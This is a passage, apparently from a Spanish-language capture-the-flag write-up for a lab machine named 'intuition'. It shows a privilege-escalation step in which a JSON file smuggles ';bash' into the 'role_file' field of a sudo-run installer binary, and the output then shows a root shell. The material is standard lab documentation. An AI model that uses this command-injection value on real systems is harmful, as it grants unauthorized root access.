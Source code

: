 Cambiamos el archivo .json
```json
{
  "run": {
    "action": "install",
    "role_file": "/tmp/test.tar.gz;bash"
  },
  "auth_code": "UHI75GHINKOP"
}
```

Y ejecutamos el binario..
```shell
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 test.json
Starting galaxy role install process
[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when
attempting to call Galaxy at 'https://galaxy.ansible.com/api/': <urlopen error [Errno -3]
Temporary failure in name resolution>
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.
root@intuition:/tmp# cat test.json
{
  "run": {
    "action": "install",
    "role_file": "/tmp/test.tar.gz;bash"
  },
  "auth_code": "UHI75GHINKOP"
}
root@intuition:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

¡Y ya estaría!